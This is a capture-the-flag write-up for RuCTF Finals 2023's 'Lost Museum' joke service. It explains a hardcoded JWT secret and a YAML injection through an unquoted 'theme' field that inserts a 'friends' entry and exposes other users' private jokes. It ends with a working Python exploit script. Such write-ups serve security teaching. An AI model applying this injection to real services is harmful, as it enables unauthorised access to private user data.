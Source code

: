 # RuCTF Finals 2023 | Lost Museum

## Description

The service is the latest social network to restore the burnt museum of jokes

## You can

1) Add your own jokes (for everyone or just for friends)
2) View your jokes
3) Search for jokes (you will see public jokes, as well as private jokes of those users with whom you are friends)
4) Add friends to other users and add other users to your friends


### Note 0

All teams had the same JWT secret

```go
secret := "HUI"
```

### Note 1
Adding a joke happens through this `yaml`:
```yaml
jokes:
  status: {{ .Status }}
  theme: {{ .Theme }}
  text: "{{ .Text }}"
```

Later this yaml is translated into golang map

The `text` field is enclosed in quotation marks so that line breaks do not break the yaml structure.
But the `theme` field is not in quotation marks.
Accordingly, we can insert any value there containing newlines and break the original structure.

### Note 2

Adding an anecdote goes like this:

```go
res, err := r.col.UpdateOne(ctx, map[string]string{"username": username}, 
                                 map[string]map[string]map[string]string{"$push": joke})
if err != nil {
    return fmt.Errorf("error while adding joke: %w", err)
}
if res.MatchedCount == 0 {
    return common.ErrNotExists
}

return nil
```

The `$push` command iterates over the passed object and adds each key the corresponding value.

In our case, in `joke` we have: `{"jokes": {"status": ..., "theme": ..., "text": ...}}`

### Note 3

Flags are kept in private jokes

To access them you need to become a friend of the user

User 1 considers himself a friend of user 2 if user 2 has user 1 in the `friends` field

Accordingly, you can break the structure of the yaml by adding the desired user as a friend, and then reading his jokes

### Result

Combining it all together, we got sploit:

```python
#!/usr/bin/env python3
import random
import sys
from string import ascii_letters

import requests

HOST = sys.argv[1]
PORT = 18888
PUBLIC_FLAG_ID = sys.argv[2]


def get_random_string() -> str:
    return ''.join(random.choice(ascii_letters) for _ in range(20))


def sploit():
    url = f"http://{HOST}:{PORT}/api"

    username, theme = PUBLIC_FLAG_ID.split("+")

    token = requests.post(f"{url}/register", data={"username": get_random_string(), "password": "123"}).json()["token"]
    headers = {"Authorization": f"Bearer {token}"}

    resp = requests.get(f"{url}/jokes", data={"username": username, "theme": theme}, headers=headers)
    print(1, resp.text)

    resp = requests.post(f"{url}/jokes", data={"status": "private",
                                               "theme": f"zzzz\nfriends:\n  {username}: yes\nsome:",
                                               "text": "abacaba"}, headers=headers)
    print(2, resp.text)

    resp = requests.get(f"{url}/jokes", data={"username": username, "theme": theme}, headers=headers)
    print(3, resp.text)


if __name__ == '__main__':
    sploit()
```